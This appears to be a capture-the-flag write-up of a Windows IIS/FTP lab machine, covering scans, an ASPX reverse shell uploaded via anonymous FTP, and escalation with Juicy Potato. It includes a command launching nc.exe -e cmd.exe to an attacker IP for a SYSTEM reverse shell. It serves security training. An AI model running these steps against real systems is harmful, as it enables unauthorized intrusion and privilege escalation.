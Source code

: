 # Recon

I do my initial scan to see which ports are open.
## nmap

```
# Nmap 7.92 scan initiated Tue Jul 26 17:31:18 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv devel.htb
Nmap scan report for devel.htb (10.129.76.240)
Host is up, received echo-reply ttl 127 (0.15s latency).
Scanned at 2022-07-26 17:31:18 CDT for 27s
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Jul 26 17:31:45 2022 -- 1 IP address (1 host up) scanned in 26.81 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Tue Jul 26 17:32:22 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 21,80 devel.htb
Nmap scan report for devel.htb (10.129.76.240)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-07-26 17:32:23 CDT for 7s

PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 26 17:32:30 2022 -- 1 IP address (1 host up) scanned in 8.60 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get anything back, so it looks like we are working with Microsoft IIS 7.5 on port 80 and then Microsoft ftpd on port 21. 

# Enumeration

## Nikto
#### Port 80
Not much from Nikto, other than it saying this looks like a default install of IIS.
```
- Nikto v2.1.6/2.1.5
+ Target Host: devel.htb
+ Target Port: 80
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 2.0.50727
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ GET /: Appears to be a default IIS 7 install.
```

## Port 21

From our nmap scans, we know that anonymous ftp logins are allowed, so let's just do that...

![a31518b896a0bb8438140f5bfeacbc11.png](../_resources/a31518b896a0bb8438140f5bfeacbc11.png)

After enumerating all files on the ftp server, we find that there is nothing helpful. My next test would be to see if we can write files to the ftp server.

I create `test.txt` with `echo "test" > test.txt`, and upload it to the ftp server using `put test.txt`

![3a024fb00598645bd5feb9a308876777.png](../_resources/3a024fb00598645bd5feb9a308876777.png)

Then try to access it on the web server.

![e89b0ba1fb8a51d96ccf4aa1157ebe4b.png](../_resources/e89b0ba1fb8a51d96ccf4aa1157ebe4b.png)

Interesting! Maybe we can upload a reverse shell of some sort? I search Google for "reverse shell asp net" and come across this shell:
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

I modify the script by setting vars `host` and `port`, followed by uploading this to the ftp server, set up a listener, and fetching the file like before.

![serviceaccprivs.png](../_resources/serviceaccprivs.png)

We got a shell back as the IIS service account. Service accounts on Windows systems generally have `SeImpersonatePrivilege` enabled by default. Checking our priviliges with `whoami /priv` indeed returns  `SeImpersonatePrivilege`  as "Enabled". 

This is great because we can use Juicy Potato to try and escalate our privileges:
https://github.com/ohpe/juicy-potato/releases/tag/v0.1

With me being unfamiliar with Juicy Potato, I searched around and came across this helpful article:
https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505

Now armed with this knowledge, we can drop the binaries for Netcat and Juicy Potato to the victim machine using Powershell.  

![jpotato.png](../_resources/jpotato.png)

I first tried running Juicy Potato without the `-c` flag so that it uses the default CLSID but didn't have any luck.

![567294ffba67720a67f495790590207d.png](../_resources/567294ffba67720a67f495790590207d.png)

So, I ended up using a different CLSID (although still BITS LocalService) which I found from the original repo here:
https://github.com/decoder-it/juicy-potato/tree/master/CLSID/Windows_7_Enterprise

I now run the following command with my listener running.

`j86.exe -l 6666 -t * -p c:\Windows\System32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.95 7331" -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"`

![dda405ad1dd4c2e199e424b8507c1d89.png](../_resources/dda405ad1dd4c2e199e424b8507c1d89.png)

![f082184af0a847a6230440f91c0c7702.png](../_resources/f082184af0a847a6230440f91c0c7702.png)

Winner winner chicken dinner, things work and we collect our loot! :)

![flags.png](../_resources/flags.png)